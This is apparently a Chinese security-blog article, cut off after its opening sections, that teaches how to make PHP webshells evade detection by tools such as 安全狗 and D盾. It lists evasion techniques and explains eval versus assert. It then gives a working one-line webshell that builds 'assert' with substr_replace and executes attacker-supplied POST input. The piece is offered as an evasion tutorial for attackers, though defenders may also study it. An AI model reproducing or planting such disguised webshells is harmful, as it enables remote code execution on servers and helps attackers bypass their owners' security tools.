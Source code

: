> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/5152)

尽最大努力在一文中让大家掌握一些有用的 WEBSHELL 免杀技巧

1.  关于 eval 于 assert
2.  字符串变形
3.  定义函数绕过
4.  回调函数
5.  回调函数变形
6.  特殊字符干扰
7.  数组
8.  类
9.  编码绕过
10.  无字符特征马
11.  PHP7.1 后 webshell 何去何从
12.  总结

关于 eval 函数在 php 给出的官方说明是

> eval 是一个语言构造器而不是一个函数，不能被 可变函数 调用  
> 可变函数：通过一个变量，获取其对应的变量值，然后通过给该值增加一个括号 ()，让系统认为该值是一个函数，从而当做函数来执行  
> 通俗的说比如你 `<?php $a=eval;$a() ?>` 这样是不行的 也造就了用 eval 的话达不到 assert 的灵活，但是在 php7.1 以上 assert 已经不行

关于 assert 函数

> assert() 回调函数在构建自动测试套件的时候尤其有用，因为它们允许你简易地捕获传入断言的代码，并包含断言的位置信息。 当信息能够被其他方法捕获，使用断言可以让它更快更方便！

字符串变形多数用于 BYPASS 安全狗，相当对于 D 盾，安全狗更加重视 "形"  
一个特殊的变形就能绕过安全狗，看看 PHP 手册，有着很多关于操作字符串的函数

```
ucwords() //函数把字符串中每个单词的首字符转换为大写。
ucfirst() //函数把字符串中的首字符转换为大写。
trim() //函数从字符串的两端删除空白字符和其他预定义字符。
substr_replace() //函数把字符串的一部分替换为另一个字符串
substr() //函数返回字符串的一部分。
strtr() //函数转换字符串中特定的字符。
strtoupper() //函数把字符串转换为大写。
strtolower() //函数把字符串转换为小写。
strtok() //函数把字符串分割为更小的字符串
str_rot13() //函数对字符串执行 ROT13 编码。
```

由于 PHP 的灵活性操作字符串的函数很多，我这里就不一一列举了

用`substr_replace()` 函数变形 assert 达到免杀的效果

```
<?php

$a = substr_replace("assexx","rt",4);

$a($_POST['x']);

?>
```
